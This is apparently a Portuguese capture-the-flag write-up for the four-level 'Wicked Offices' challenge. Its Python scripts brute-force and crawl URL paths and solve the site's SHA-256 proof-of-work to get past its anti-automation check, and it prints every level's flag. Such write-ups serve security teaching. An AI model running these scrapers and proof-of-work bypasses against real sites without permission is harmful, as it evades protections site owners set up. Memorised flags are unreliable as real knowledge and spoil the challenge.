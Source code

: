 # Write Ups ~ Wicked Offices

## Office nº 0

Ao acessar a URL do desafio, [https://wicked-offices.wickedcorp.online/level0/](https://wicked-offices.wickedcorp.online/level0/) o jogador irá se deparar com uma imagem de um corredor que possui 4 *links* clicáveis, dando as seguintes opções para o usuário:

- *link superior esquerdo:* path `/level0/0/`;
- *link superior direito:* path `/level0/1/`;
- *link inferior esquerdo:* path `/level0/2/`;
- *link inferior direito:* path `/level0/3/`.

![](./images/WICKED_OFFICE_0_Tela_Corredor.png)

A tela seguinte apresenta o mesmo corredor, dando as mesmas 4 opções novamente para o usuário. Porém, desta vez a próxima irá levar
o usuário para um caminho sem *links*, indicando que chegou à um beco sem saída e deve retornar.

![](./images/WICKED_OFFICE_0_Tela_Corredor.png)

Logo, para encontrar a *flag*, o usuário deve percorrer manualmente as 20 (4^1 + 4^2) variações de URL buscando encontrar o *path* que a flag se encontra (que no desafio será o path `/level0/2/3`):

![](./images/WICKED_OFFICE_0_Tela_Flag.png)

- **Flag:** `TAC{cbfa41bfc7a02097a787b210fe612fd3ee4b93e84e7c1ace07dd8391f73ac6e8}`

## Office nº 1

Similar ao desafio anterior, porém desta vez o usuário terá 1364 (4 + 4^2 + 4^3 + 4^4 + 4^5) variações de *paths* que precisa
explorar para encontrar a *flag*. Dito isso, o usuário deverá utilizar alguma ferramenta de automação, como um script Python automatizado ou um FFUF, para poder navegar rapidamente pelas opções e obter a *flag*.

O script a seguir ilustra um exemplo de código que poderia ser utilizado para obter a flag:

```python
import requests

BASE_URL = 'http://localhost:4000/level1'

for i in range(0,4):
    for j in range(0,4):
        for k in range(0,4):
            for l in range(0,4):
                for m in range(0,4):
                    # Request the URL
                    print(f'Requesting {BASE_URL}/{i}/{j}/{k}/{l}/{m}...')
                    res = requests.get(f'{BASE_URL}/{i}/{j}/{k}/{l}/{m}')
                    # Check if response has flag
                    if res.status_code == 200 and "TAC{" in res.text:
                        print(res.text)
                        exit(0)
```

Por fim, o usuário conseguiria obter a flag no path `/level1/2/3/0/3/0/`

![](./images/WICKED_OFFICE_1_Tela_Flag.png)

- **Flag:** `TAC{fbbbd51b48aa6f39d43c98fc7976b5b17fd185042bf0c1b5e5e1642236d90d34}`

## Office nº 2

Neste desafio os corredores apresentam apenas 4 níveis de profundidade, possuindo apenas 340 (4 + 4^2 + 4^3 + 4^4) opções de URL para o usuário percorrer. No entanto, diferente das opções numéricas [0, 1, 2, 3] utilizadas no desafio anterior, neste cada corredor possui *links* com strings aleatórias que variam a cada iteração. A imagem a seguir ilustra tal comportamento:

![](./images/WICKED_OFFICE_2_Busted.png)

Logo, o *script* anterior terá que ser modificado para navegar e extrair, página por página, as opções de *links* até encontrar a combinação em que a flag se encontra.

```python
import re
import requests

BASE_URL = 'http://localhost:4000/level2'

paths = [ "/" ]

while len(paths):
    # Pega primeiro elemento da lista
    currentPath = paths.pop(0)
    # Faz a requisicao e verifica se possui a flag
    print(f'{BASE_URL}/{currentPath}')
    res = requests.get(f'{BASE_URL}/{currentPath}')
    if res.status_code == 200 and "TAC{" in res.text:
        print(res.text)
        exit(0)
    # Senão, extrai os 4 links do HTML
    matches = re.findall(r"href=\"([a-z]{4})/\"", res.text)
    for m in matches:
        paths.append(f'{currentPath}{m}/')
```

Por fim, o usuário conseguiria obter a flag no path `/level2/coos/dale/deed/move/`

![](./images/WICKED_OFFICE_2_Tela_Flag.png)

- **Flag:** `TAC{ea48266a725636fea755acdbcbb921d65abe03c0a18d62b8eb3670cf23663f9d}`

## Office nº 3

Neste desafio, ao clicar em algum dos *links* o usuário será capaz de repara que foram introduzidos dois parâmetros na URL, vide o exemplo a seguir:

- `https://wicked-offices.wickedcorp.online/level3/wish/?code=2526&hash=0000ddd9caf8042bbdcc85bdb2860f6923797f324be18eaf13570c690047c3a0`

![](./images/WICKED_OFFICE_3_Tela_Corredor.png)

Ao tentar acessar a URL sem a presença algum dos parâmetros, ou tentar modificá-los, é possível notar que uma tela de alerta é exibida para o jogador:

![](./images/WICKED_OFFICE_3_Tela_Alarme.png)

Ao análisar o código HTML da página, é possível constatar que neste desafio foi adicionar um arquivo *JavaScript* que possui uma função que é executada sempre que um dos *links* da imagem é pressionado:

```javascript
// Link do arquivo: https://wicked-offices.wickedcorp.online/proof-of-work.js
async function clickCallback(nextPath){
    // Change the title to the bypassing text
    document.getElementById('titleMessage').innerText = "Bypassing..."
    
    // Generate Nonce
    const nonce = document.location.pathname.split('/').join('') + nextPath

    // Calculate proof of work
    for(let i = 0; ; i++){
        const msgUint8 = new TextEncoder().encode(`${i}${nonce}`);
        const hashBuffer = await crypto.subtle.digest("SHA-256", msgUint8);
        const hashArray = Array.from(new Uint8Array(hashBuffer));
        const hashHex = hashArray
            .map((b) => b.toString(16).padStart(2, "0"))
            .join("");

        if(hashHex.startsWith("0000"))
            window.location = `${document.location.origin}${document.location.pathname}${nextPath}/?code=${i}&hash=${hashHex}`;    
    }
}
```

Realizando a análise do código, é possível constatar que se trata de um algoritmo de **Prova de Trabalho** (*Proof of Work*), tais algoritmos podem ser utilizados como métodos para tornar ataques automatizados mais custosos, ao obrigar o usuário a resolver um desafio matemático para poder autenticar sua requisição.

Logo, precisamos modificar o *script* utilizado no desafio anterior para conseguir calcular e adicionar os dois novos parâmetros e, com isso, obter a flag:

```python
import re
import requests
from hashlib import sha256

BASE_URL = 'http://localhost:4000/level3'

paths = [ "/" ]

while len(paths):
    # Pega primeiro elemento da lista
    currentPath = paths.pop(0)
    # Calculate Proof-of-Work
    queryCode = 0
    queryHash = ''
    nonce = "".join(f'level3/{currentPath}'.split('/'))
    while True:
        queryCode += 1
        queryHash = sha256(f'{queryCode}{nonce}'.encode('utf-8')).hexdigest()
        if queryHash.startswith("0000"):
            break
    # Faz a requisicao e verifica se possui a flag
    print(f'{BASE_URL}{currentPath}?code={queryCode}&hash={queryHash}')
    res = requests.get(f'{BASE_URL}{currentPath}?code={queryCode}&hash={queryHash}')
    if res.status_code == 200 and "TAC{" in res.text:
        print(res.text)
        exit(0)
    # Extrai os 4 links do HTML
    matches = re.findall(r"clickCallback\('([a-z]{4})'\)", res.text)
    for m in matches:
        paths.append(f'{currentPath}{m}/')
```

Por fim, o usuário conseguiria obter a flag no path `/level3/fans/dope/pair/boat/?code=11173&hash=00002d99fb3a07ccda026a322e7a3d3803c2e3522c9cdbb6afa1be3fb1396a55`.

![](./images/WICKED_OFFICE_3_Tela_Flag.png)

- **Flag:** `TAC{6ca79670b2dfe2e2059ccbbece565676c53ece8b46b2cfca46fdc3361c906fbd}`
